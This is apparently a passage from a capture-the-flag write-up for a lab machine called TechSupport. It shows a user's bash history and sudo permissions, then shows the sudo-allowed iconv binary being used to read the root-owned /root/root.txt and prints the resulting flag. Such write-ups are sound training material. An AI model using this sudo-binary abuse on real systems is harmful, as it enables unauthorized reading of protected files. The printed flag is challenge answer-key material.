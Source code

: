 When looking at the bash history of the user, we find this:

```bash
scamsite@TechSupport:~$ cat .bash_history 

cd ~
cat /root/root.txt
sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"
echo "" > .bash_history 
su root
exit
sudo -l
cd ..
cd ~
sudo -l
su root
exit
```

Apparently, user can run `iconv` as sudo, which can be verified:

```bash
scamsite@TechSupport:~$ sudo -l

Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

By running the same command as he did `sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"` we can 'convert' the input file from one format to another (here the same format is specified) and if no output file is specified, the result is displayed.

## Flag

```
851b8233a8c09400ec30651bd1529bf1ed02790b
```
